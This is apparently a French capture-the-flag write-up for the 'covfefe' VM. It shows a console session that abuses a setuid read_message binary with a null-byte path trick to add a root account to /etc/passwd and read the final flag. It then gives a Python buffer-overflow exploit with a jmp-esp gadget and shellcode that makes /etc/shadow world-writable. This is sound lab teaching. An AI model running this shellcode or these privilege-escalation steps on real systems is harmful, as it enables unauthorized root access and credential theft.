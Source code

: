 ```console
simon@covfefe:~$ echo -e "Simon\0///////////////////tmp/getroot" | /usr/local/bin/read_message
What is your name?
Hello Simon! Here is your message:

simon@covfefe:~$ tail /etc/passwd
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
simon:x:1000:1000:,,,:/home/simon:/bin/bash
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh
simon@covfefe:~$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt  read_message.c
# cat flag.txt
You did it! Congratulations, here's the final flag:
flag3{das_bof_meister}
```

## Mieux qu'au loto

En théorie, comme on est sur du 32 bits, on peut tenter de brute forcer les adresses. Sur cette VM la désactivation de l'ASLR avec `ulimit -s unlimited` a été patchée donc le brute force est notre seul recours.

Sachant que l'adresse de retour de la fonction `main` est présente à l'offset 46 j'ai écrit ce code qui tente l'exploitation en boucle en espérant que l'adresse de base corresponde à un cas d'exécution du binaire, auquel cas, on saute sur le gadget vu plus tôt et on arrive sur notre shellcode (avec NX désactivé) :

```python
import os
from stat import S_IWOTH
from struct import pack

shellcode = (
    b"\x6a\x0f"               #  push $0xf
    b"\x58"                   #  pop %eax
    b"\x31\xc9"               #  xor %ecx,%ecx
    b"\x51"                   #  push %ecx
    b"\x66\xb9\xb6\x01"       #  mov $0x1b6,%cx
    b"\x68\x61\x64\x6f\x77"   #  push $0x776f6461
    b"\x68\x63\x2f\x73\x68"   #  push $0x68732f63
    b"\x68\x2f\x2f\x65\x74"   #  push $0x74652f2f
    b"\x89\xe3"               #  mov %esp,%ebx
    b"\xcd\x80"               #  int $0x80
    b"\x40"                   #  inc %eax
    b"\xcd\x80"               #  int $0x80
)

jmp_to_esp = 0x80024000 + 0x550
offset = 46

buffer = b"Simon\0" + b"A" * offset + pack("<I", jmp_to_esp) + shellcode + b"\n"
with open("input.raw", "wb") as fd:
    fd.write(buffer)
```